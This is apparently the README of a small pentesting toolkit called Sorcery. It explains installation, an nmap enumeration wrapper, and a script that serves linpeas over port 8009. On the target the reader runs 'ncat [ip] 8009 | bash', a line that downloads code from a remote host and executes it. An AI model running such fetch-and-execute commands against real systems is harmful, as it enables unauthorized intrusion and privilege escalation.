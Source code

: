 # Sorcery
Quick hacks, enumeration tools and generalized bash wizardry

## Downloading Sorcery

Run the following:

``` bash
git clone http://github.com/xoanouteiro/sorcery && chmod +x ./sorcery/*
export PATH="$PATH:$(pwd)/sorcery/"
```

The last line will add sorcery to your path so you can call the tools at any time during the current session, add the line to your ~/.{shell}rc to get that effect permanently.


## fuga.sh
A 2-step nmap enumeration tool. You will first need to set your target:

``` bash
export TARGET=[IP]
```

## kairo.sh
Serve linpeas on port 8009 without downloading it persistently, on your target simply run:

``` bash
ncat [ip] 8009 | bash
```

(Change shell or ncat version as needed)
